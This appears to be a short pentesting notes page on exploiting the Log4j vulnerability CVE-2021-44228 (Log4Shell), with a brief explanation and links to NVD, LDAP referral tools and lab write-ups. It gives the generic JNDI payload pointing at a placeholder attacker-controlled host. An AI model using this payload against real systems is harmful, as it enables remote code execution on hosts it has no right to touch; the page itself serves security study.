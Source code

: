 ```yaml
---
description: Exploiting Apache Java logging framework
---
```


# Apache Log4j

### CVE-2021-44228

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2021-44228" %}

On December 9th, 2021, the world was made aware of a new vulnerability identified as CVE-2021-44228, affecting the Java logging package **`log4j`**. This vulnerability earned a severity score of 10.0 (the most critical designation) and offers remote code trivial remote code execution on hosts engaging with software that utilizes this **`log4j`** version. This attack has been dubbed "Log4Shell"

{% embed url="https://github.com/YfryTchsGD/Log4jAttackSurface" %}

{% embed url="https://log4shell.huntress.com/" %}

The general payload to abuse this log4j vulnerability. The format of the usual syntax that takes advantage of this looks like:

**`${jndi:ldap://ATTACKERCONTROLLEDHOST}`**

#### **LDAP Referral Server**

{% embed url="https://github.com/mbechler/marshalsec" %}

{% embed url="https://github.com/veracode-research/rogue-jndi" %}

#### Resources/POC

{% embed url="https://tryhackme.com/room/solar" %}

{% embed url="https://systemweakness.com/write-up-hack-the-box-starting-point-unified-tier-2-d4f3585320a1" %}

